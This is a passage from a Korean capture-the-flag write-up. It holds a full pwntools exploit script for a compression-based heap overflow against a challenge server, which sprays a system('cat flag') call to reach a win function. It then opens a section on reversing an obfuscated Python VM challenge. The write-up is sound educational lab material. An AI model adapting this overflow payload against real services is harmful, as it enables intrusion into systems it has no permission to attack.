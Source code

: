 - 해당 바이너리에는 win이라는 system함수를 실행시켜주는 함수가 존재하므로 해당 함수 주소를 field_190에 저장해둔 뒤 overflow를 시켜주면 될 것이다.

  ```python
  from pwn import *
  
  con = remote("110.10.147.111", 4141)
  
  size = 0x400 - 0x50
  
  ar = p64(0x393130322394D3C0)	# magic
  ar += p64(size)				# compress_size
  
  # save uncompressed_msg in heap
  for i in range(0x39):
  	ar += p8(0b11000000 | 0b00110100)	# spray 8byte (0x34)
  
  # uncompressed_size overwrite
  ar += p8(0b01000000 | 0b00110011)
  ar += p8(0x01)
  
  for i in range(0x21):
  	ar += p8(0b01000000 | 0b00110011)
  	ar += p8(0x01)
  
  #r = size - len(ar) - 3
  for i in range(0x39):
  	ar += p8(0b11000000 | 0b00110011) # spray system("cat flag")
  
  # uncompressed_msg overwrite
  ar += p8(0b01000000 | 0b00110100)
  ar += p8(0x01)
  
  ar += p8(0x41)
  
  print len(ar)
  
  with open("payload", "wb") as f:
  	f.write(ar)
  
  con.send(p32(len(ar)))
  con.send(ar)
  
  con.interactive()
  ```

  

## 5. PyProt3ct

- python vm reversing

- 문제에서 2개의 python 파일, byte code binary를 제공한다. 해당 파일들을 분석하기 위해 play.py를 먼저 살펴보면 난독화가 되어있는 것을 볼 수 있다.

  ```python
  # ...
  def O0O0O0O00OO0O0O0O(OOO0OO0O000O0OOOO ,OOO0O0000OOOO0OO0):
      O0O0O0000OO0OOO0O=dict()
      OOOO0000OOO0OOO0O=1000
      OOOO0OO00OOOO000O=1001
      O00OOO0O00OOOOO0O=2001
      OO0OO00000000O00O=2002
      O0OO0OO0000O0O0OO=2003
      O0O000OOO0OOOO0OO=2004
      O000OOO00OOO0O00O=0
      OOO0OO0OO0OOO00O0=1
      O0OOOOOOOOO00OOOO=2
  ```